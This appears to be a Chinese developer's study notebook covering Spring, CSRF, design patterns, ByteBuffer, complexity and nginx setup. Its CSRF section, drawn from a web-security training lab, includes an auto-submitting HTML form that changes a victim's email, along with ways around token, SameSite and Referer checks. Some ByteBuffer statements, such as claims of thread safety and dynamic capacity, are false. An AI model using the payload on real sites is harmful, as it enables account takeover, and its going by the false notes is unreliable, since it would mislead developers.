拦截器会拦截所有请求，所以需要在拦截器中将静态资源的rul排除在外，而由于静态资源的rul并没有在项目中声明，所以**当访问真正进行的时候就会被spring更改为【/error】**，从而被拦截器拦截


解决方法：

在config配置类中使用【addResourceHandlers()方法】对资源的**访问路径**与**映射路径**都设置好


- 注意：addResourceHandler()方法的作用**相当于**【.yml】配置文件中的**sprin.mvc.static-path-pattern**的作用，且经过测试，config类中的优先级高于配置文件中的设置
- 在这里**推荐在config类中配置静态资源的访问路径于映射路径**，因为【.yml】配置文件中的路径设置并不能被spring容器读取为已声明的路径

## Mybatis搭配SpringBatch

https://mybatis.org/spring/batch.html

## 什么是CSRF

跨站请求伪造（也称为 CSRF）是一种 Web 安全漏洞，允许攻击者诱导用户执行他们不打算执行的操作。它允许攻击者部分规避同源策略，该策略旨在防止不同网站相互干扰。

### CSRF 是如何工作的？

要实现 CSRF 攻击，必须满足三个关键条件：

- **相关行动。**攻击者有理由诱发应用程序内的某个操作。这可能是特权操作（例如修改其他用户的权限）或对用户特定数据的任何操作（例如更改用户自己的密码）。
- **基于 Cookie 的会话处理。**执行该操作涉及发出一个或多个 HTTP 请求，并且应用程序仅依赖会话 cookie 来识别发出请求的用户。没有其他机制可以跟踪会话或验证用户请求。
- **没有不可预知的请求参数。**执行操作的请求不包含攻击者无法确定或猜测其值的任何参数。例如，当导致用户更改密码时，如果攻击者需要知道现有密码的值，则该功能不易受到攻击。

### 构建攻击

```html
例如我们知道一个更改用户邮箱为a@a.com的请求
POST /my-account/change-email HTTP/1.1
Host: 0ae300ff03bacd7380c60345002f00ce.web-security-academy.net
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: https://0ae300ff03bacd7380c60345002f00ce.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Referer: https://0ae300ff03bacd7380c60345002f00ce.web-security-academy.net/my-account?id=wiener
Cookie: session=2TfCTfLB6orqMqqRsHSvanKFnchcKfNb

email=a%40a.com
```

```html
生成CSRF Poc
<form method="POST" action="https://0ae300ff03bacd7380c60345002f00ce.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="随便一个邮箱">
</form>
<script>
        document.forms[0].submit();
</script>
```

当在其他用户浏览器内运行到该代码时(可以通过评论等)，其他用户的邮箱就自动更改为自己的邮箱，实现攻击。

### 通过CSRF令牌进行防御

**CSRF 令牌**- CSRF 令牌是由服务器端应用程序生成并与客户端共享的唯一、秘密且不可预测的值。当尝试执行敏感操作（例如提交表单）时，客户端必须在请求中包含正确的 CSRF 令牌。这使得攻击者很难代表受害者构建有效的请求。缺陷有：

- CSRF 令牌的验证取决于请求方法，某些应用程序在请求使用 POST 方法时正确验证令牌，但在使用 GET 方法时跳过验证。

  在这种情况下，攻击者可以切换到 GET 方法来绕过验证并进行CSRF 攻击

- CSRF 令牌的验证取决于令牌的存在

- CSRF 令牌不与用户会话绑定

- CSRF 令牌与非会话 cookie 绑定，某些应用程序确实将 CSRF 令牌绑定到 cookie，但不绑定到用于跟踪会话的同一个 cookie

- CSRF 令牌只是在 cookie 中复制

**SameSite cookie** - SameSite 是一种浏览器安全机制，用于确定何时将网站的 cookie 包含在源自其他网站的请求中。由于执行敏感操作的请求通常需要经过身份验证的会话 cookie，因此适当的 SameSite 限制可能会阻止攻击者跨站点触发这些操作。自 2021 年起，Chrome`Lax`默认强制实施 SameSite 限制。由于这是提议的标准，我们预计其他主要浏览器将来也会采用这种行为。

- 

| -                         | **请求来自**                   | **请求**        | **同一个站点？** | **同源？** |
| ------------------------- | ------------------------------ | --------------- | ---------------- |
| `https://example.com`     | `https://example.com`          | 是的            | 是的             |
| `https://app.example.com` | `https://intranet.example.com` | 是的            | 否：域名不匹配   |
| `https://example.com`     | `https://example.com:8080`     | 是的            | 否：端口不匹配   |
| `https://example.com`     | `https://example.co.uk`        | 否：eTLD 不匹配 | 否：域名不匹配   |
| `https://example.com`     | `http://example.com`           | 否：方案不匹配  | 否：方案不匹配   |

  目前所有主流浏览器都支持以下 SameSite 限制级别：Strict Lax None

- 如果使用该属性设置 cookie `SameSite=Strict`，浏览器将不会在任何跨站点请求中发送它。简单来说，这意味着如果请求的目标站点与浏览器地址栏中当前显示的站点不匹配，则不会包含 cookie

- `Lax`SameSite 限制意味着浏览器将在跨站点请求中发送 cookie，但前提是满足以下两个条件：

  - 请求使用该`GET`方法。
  - 该请求是由用户的顶级导航产生的，例如单击链接。

- 使用 GET 请求绕过 SameSite Lax 限制

  - 在实践中，服务器并不总是关心它们是否收到给定端点GET或POST对给定端点的请求，即使是那些期望表单提交的端点。如果他们还Lax对其会话 cookie 使用限制（无论是明确的还是由于浏览器默认设置），您仍然可以通过引发受害者浏览器的请求 来执行CSRF 攻击。

- 使用现场小工具绕过 SameSite 限制，如果使用该属性设置 cookie SameSite=Strict，浏览器将不会将其包含在任何跨站点请求中。如果您可以找到在同一站点内产生辅助请求的小工具，您也许能够绕过此限制。

**基于 Referer 的验证**- 某些应用程序使用 HTTP Referer 标头来尝试防御 CSRF 攻击，通常是通过验证请求是否源自应用程序自己的域。这通常不如 CSRF 令牌验证有效。

- Referer 的验证取决于标头是否存在，某些应用程序会Referer在请求中出现标头时对其进行验证，但如果省略标头，则会跳过验证。<meta name="referrer" content="never">
- 可以绕过Referer验证，某些应用程序Referer以可绕过的简单方式验证标头。例如，如果应用程序验证 中的域Referer以预期值开头，则攻击者可以将其放置为自己域的子域`http://vulnerable-website.com.attacker-website.com/csrf-attack`

### csrf令牌生成

- CSRF 令牌应包含显着的熵并且具有很强的不可预测性，通常具有与会话令牌相同的属性。

  您应该使用加密安全的伪随机数生成器 (CSPRNG)，以创建时的时间戳和静态密钥作为种子。

  如果您需要超出 CSPRNG 强度的进一步保证，您可以通过将其输出与一些用户特定的熵连接起来来生成单独的令牌，并对整个结构进行强哈希。这给试图根据发给他们的样本分析令牌的攻击者带来了额外的障碍。

- CSRF 令牌应被视为秘密，并在其整个生命周期中以安全的方式进行处理。通常有效的方法是在使用 POST 方法提交的 HTML 表单的隐藏字段中将令牌传输到客户端。提交表单时，令牌将作为请求参数包含在内,另一种方法是将令牌放入 URL 查询字符串中，但安全性稍差，某些应用程序在自定义请求标头中传输 CSRF 令牌。这进一步防御了成功预测或捕获其他用户令牌的攻击者，因为浏览器通常不允许跨域发送自定义标头。然而，该方法限制应用程序使用 XHR（而不是 HTML 表单）发出受 CSRF 保护的请求，并且在许多情况下可能被认为过于复杂，CSRF 令牌不应在 cookie 内传输。

- CSRF 令牌应该如何验证？生成 CSRF 令牌后，应将其存储在服务器端用户的会话数据中。当收到需要验证的后续请求时，服务器端应用程序应验证该请求是否包含与用户会话中存储的值相匹配的令牌。无论请求的 HTTP 方法或内容类型如何，都必须执行此验证。如果请求根本不包含任何令牌，则应以与存在无效令牌时相同的方式拒绝该请求。

- 使用严格的 SameSite cookie 限制

- 我们建议将不安全内容（例如用户上传的文件）与任何敏感功能或数据隔离在单独的站点上。

## 设计模式

### 七大原则

- 单一职责原则

- **依赖**反转原则

- 里氏替换原则
  - 我们发现原来运行正常的相减功能发生了错误。原因就是类B无意中重写了父类的方法，造成原有功能出现错误。在实际编程中，我们常常会通过重写父类的方法完成新的功能，这样写起来虽然简单，但整个继承体系的复用性会比较差。特别是运行多态比较频繁的时候
  - 通用的做法是:原来的父类和子类都继承一个更通俗的基类，原有的继承关系去掉，采用依赖，**聚合**，**组合**等关系代替。
  
- 开闭原则
  - 对扩展开放、对修改关闭
  
- 迪米特法则
  - 迪米特法则还有个更简单的定义: 只与直接的朋友通信
  - 直接的朋友:每个对象都会与其他对象有耦合关系，只要两个对象之间有耦合关系我们就说这两个对象之间是朋友关系。耦合的方式很多，依赖，关联，组合，聚合等。其中，我们称出现成员变量，方法参数，方法返回值中的类为直接的朋友，而出现在局部变量中的类不是直接的朋友。也就是说，陌生的类最好不要以局部变量的形式出现在类的内部。
  
- 合成复用原则
  - 
  ---
  
- 依赖关系：用到了对方 虚线普通箭头 ----->
  - 泛化关系：继承 实线空心箭头 ——————|>
    - 实现关系：implement 虚线空心箭头 -----|>
  - 关联关系：有双向或者单向 单向1对1：1——————>1  双向1对1 1——————1
    - 聚合关系：整体与部分可以分开 ——————o
    - 组合关系：——————*

- 单例模式
  - 饿汉式：类加载器初始化 静态常量、静态代码块
  
  - 懒汉式：线程不安全
    - synchroized 线程安全
    - 不能用 `if obj == null { synchroized obj {new obj()}}`
    - 双重检查但不为volatile
      - ```
        上述写法看似解决了问题，但是有个很大的隐患。实例化对象的那行代码（标记为error的那行），实际上可以分解成以下三个步骤：
        1.分配内存空间
        2.初始化对象
        3.将对象指向刚分配的内存空间
        但是有些编译器为了性能的原因，可能会将第二步和第三步进行重排序，顺序就成了：
        1.分配内存空间
        2.将对象指向刚分配的内存空间
        3.初始化对象
        ```
  
        - 双重检查 obj为volatile
  
  - 静态内部类：不会立即装载，在调用到时装载且线程安全
  
  - 枚举：类加载时加载，避免反序列化创建新实例（序列号时只会保存枚举名字）

## Content-Disposition

1. ```java
   https://stackoverflow.com/questions/70804280/utf-8-characters-in-filename-for-content-disposition-yield-illegalargumente
   
   “Content-Disposition”的“文件名”中的 UTF-8 字符产生“IllegalArgumentException：意外的字符”?
   
   HTTP 标头的默认字符集是 ISO-8859-1。然而， RFC 6266描述了如何在标头中对文件名进行编码Content-Disposition。基本上，您指定字符集名称，然后对 UTF-8 字符进行百分比编码。而不是使用以likefileName="my-simple-filename"开头的参数filename*=utf-8''
   
   String contentDisposition = "attachment;filename*=utf-8''" + encodeFileName(fileName);
   .add("Content-Disposition", contentDisposition)
   .add("Content-type", "application/octet-stream")
   private static String encodeFileName(String fileName) {
       return URLEncoder.encode(fileName, StandardCharsets.UTF_8).replace("+", "%20");
   }
   https://blog.51cto.com/u_16175458/6825490
   ```

## Byte数组和ByteBuffer

1. 使用 equals() 进行比较
   您不能使用equals()和hashCode()比较字节数组，您需要使用Arrays.equals()和Arrays.deepEquals()方法，但您可以使用这两种方法比较两个 ByteBuffer。

2. ByteBuffer 允许您以任何字节顺序读取和写入数据，例如小端字节序和大端字节序。Big Endian 也称为网络字节顺序。

3. 复制

   ByteBuffer 具有独特的功能，可以通过实例化新的 ByteBuffer 将字节缓冲区的子集作为值传递，而无需复制字节。

   - NIO API 广泛使用 ByteBuffer:s。
   - ByteBuffer 中的字节可能驻留在[Java 堆](https://www.java67.com/2016/10/difference-between-heap-and-stack-memory-in-java-JVM.html)之外。
   - ByteBuffer 具有超出字节本身的状态，这有助于相关的 I/O 操作（但有一些注意事项，如下所述）。
   - ByteBuffer 提供了读取和写入各种基本类型（例如整数和长整数）的方法（并且可以以不同的字节顺序进行）。

4. 可变性

   字节数组在Java中是可变的，这意味着它的元素在创建后可以更改，但是ByteByffer类在Java中是不可变的，尽管它的内容可以修改

5. 字节数组不提供任何特定的方法来写入特定的数据类型，但 ByteBuffer 提供了不同的方法来将不同的数据类型写入缓冲区，例如putInt()、 putDouble() 、putChar()和getInt()、 getDouble() 和 getChar( ） 方法。还有更多方法支持所有 Java 数据类型。  

6. 字节数组具有固定容量，这意味着一旦创建就无法更改字节数组的容量，但 ByteBuffer 具有动态容量，您可以在创建后根据数据增加或减少容量。

7. 字节数组不是线程安全的，因此它不适合在多线程和并发环境中使用，但 ByteBuffer 提供对其访问器方法的线程安全访问，这使其成为并发 Java 应用程序中的更好选择。

8. 字节数组不提供任何实用方法，您只需从索引中保存和获取数据，但 ByteBuffer 提供了各种方法来处理不同的数据类型，这使得处理二进制数据变得更容易。

9. 很多人不知道，但你可以在Java中创建直接字节缓冲区，它可以代表堆外的内存，例如MemoryMappedBuffer，它是DirectBuffer的子类，并提供对Java中内存映射文件的访问。 

10. 


## [计算复杂性1](https://www.topcoder.com/thrive/articles/Computational%20Complexity%20part%20one)

```java
for (int i = 0; i < N; i++)
  for (int j = i + 1; j < N; j++)
    if (A[i] > A[j])
      swap(A[i], A[j]);
```

包含N个元素数组最坏情况

- 第一步恰好执行了 N 次
- 第二步和第三步恰好执行了 N(N – 1)/2 次
- 第四步最多执行N(N-1)/2次

显然，如果A中的元素一开始是降序的，那么第四步总会被执行。因此，在这种情况下，算法执行 3N( N – 1)/2 + N = 1.5N 2 – 0.5N 步。因此我们的算法有 f ( N ) = 1.5N 2 – 0.5N


**示例 1.**估计一段随机代码的时间复杂度。

```java
int result = 0; //  1
for (int i = 0; i < N; i++) //  2
  for (int j = i; j < N; j++) { //  3
    for (int k = 0; k < M; k++) { //  4
      int x = 0; //  5
      while (x < N) {
        result++;
        x += 3;
      } //  6
    } //  7
    for (int k = 0; k < 2 * M; k++) //  8
      if (k % 7 == 4) result++; //  9
  } // 10
```


第 6 行中 while 循环的时间复杂度显然是 O(N)——它执行不超过 N/3 + 1 次。

现在考虑第 4-7 行中的 for 循环。变量 k 显然增加了 O(M) 次。每次执行第 6 行的整个 while 循环。因此，第 4-7 行的总时间复杂度可以限制为 O(MN)。

第 8-9 行 for-cycle 的时间复杂度是 O(M)。因此第 4-9 行的执行时间是 O(MN + M) = O(MN)。

该内部部分执行 O(N 2 ) 次——针对 i 和 j 的每个可能组合执行一次。（请注意，[i, j] 只有 N(N + 1)/2 个可能值。不过，O(N 2 ) 是一个正确的上限。）

从上面的事实可以看出，算法的总时间复杂度在示例 1 中是 O(N2 .MN) = O(MN 3 )。

## java打包

https://blog.csdn.net/baidu_41885330/article/details/81875395

https://blog.csdn.net/Yu_luoluo/article/details/101691933

1、公共类，接口类，实体类不需要打包
2、服务提供方需要打包，打包时会自动生成他们所依赖的jar包（比如会自动把所需要的公共类，实体类打成jar包）

打包流程

#### 1、配置pom.xml

打包流程很简单，就是在需要打包的模块的pom.xml文件中导入maven打包的依赖即可。

1. 加入插件依赖

```xml
  <properties>
		 <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
		  <project.reporting.outputEncoding>UTF-8</project.reporting.outputEncoding>
		  <java.version>1.8</java.version>
  </properties>

 <build>
<plugins>
    <plugin>
        <groupId>org.apache.maven.plugins</groupId>
        <artifactId>maven-compiler-plugin</artifactId>
        <version>3.1</version>
        <configuration>
            <source>${java.version}</source>
            <target>${java.version}</target>
        </configuration>
    </plugin>
    <plugin>
        <groupId>org.apache.maven.plugins</groupId>
        <artifactId>maven-surefire-plugin</artifactId>
        <version>2.19.1</version>
        <configuration>
            <skipTests>true</skipTests>    <!--默认关掉单元测试 -->
        </configuration>
    </plugin>
</plugins>
```
2. 指定主函数入口

```xml
   <plugins>
       <plugin>
           <groupId>org.springframework.boot</groupId>
           <artifactId>spring-boot-maven-plugin</artifactId>
           <configuration>
               <!-- 指定该Main Class为全局的唯一入口 -->
               <mainClass>com.braisedpanda.student.management.system.web.WebApplication</mainClass>
               <layout>ZIP</layout>
           </configuration>
           <executions>
               <execution>
                   <goals>
                       <goal>repackage</goal><!--可以把依赖的包都打包到生成的Jar包中-->
                   </goals>
               </execution>
           </executions>
       </plugin>
   </plugins>
```

##    nginx配置

```sh
# For more information on configuration, see:
#   * Official English Documentation: http://nginx.org/en/docs/
#   * Official Russian Documentation: http://nginx.org/ru/docs/

user root;
worker_processes auto;
error_log /var/log/nginx/error.log;
pid /run/nginx.pid;

# Load dynamic modules. See /usr/share/doc/nginx/README.dynamic.
include /usr/share/nginx/modules/*.conf;

events {
    worker_connections 1024;
}

http {
    log_format  main  '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log  /var/log/nginx/access.log  main;

    sendfile            on;
    tcp_nopush          on;
    tcp_nodelay         on;
    keepalive_timeout   65;
    types_hash_max_size 4096;

    include             /etc/nginx/mime.types;
    default_type        application/octet-stream;

    # Load modular configuration files from the /etc/nginx/conf.d directory.
    # See http://nginx.org/en/docs/ngx_core_module.html#include
    # for more information.
    include /etc/nginx/conf.d/*.conf;

    server {
        listen       80;
        listen       [::]:80;
        server_name  localhost;
        root         /root/dist;

        # Load configuration files for the default server block.
        include /etc/nginx/default.d/*.conf;
        #  if ( $request_uri ~ "/index.html" ) {	
	# rewrite ^(|/(.*))/index\.html$ /$2 permanent;
	# }
	location / {
		try_files $uri $uri/ @router;
		# root /root/dist;
		# if ( $request_uri ~ "/index.html" ) {
    		# 	rewrite ^(.*)/ $1/ permanent;
		# }
		# rewrite ^(|/(.*))/index\.html$ /$2 permanent;	
		index index.html;
	}

        location @router {
		rewrite ^.*$ /index.html break;
	}
	location ^~ /api/ {
		proxy_pass http://localhost:25565;
		rewrite ^/api/(.*) /$1 break;
	}
    }

# Settings for a TLS enabled server.
#
#    server {
#        listen       443 ssl http2;
#        listen       [::]:443 ssl http2;
#        server_name  _;
#        root         /usr/share/nginx/html;
#
#        ssl_certificate "/etc/pki/nginx/server.crt";
#        ssl_certificate_key "/etc/pki/nginx/private/server.key";
#        ssl_session_cache shared:SSL:1m;
#        ssl_session_timeout  10m;
#        ssl_ciphers HIGH:!aNULL:!MD5;
#        ssl_prefer_server_ciphers on;
#
#        # Load configuration files for the default server block.
#        include /etc/nginx/default.d/*.conf;
#
#        error_page 404 /404.html;
#            location = /40x.html {
#        }
#
#        error_page 500 502 503 504 /50x.html;
#            location = /50x.html {
#        }
#    }

}


```


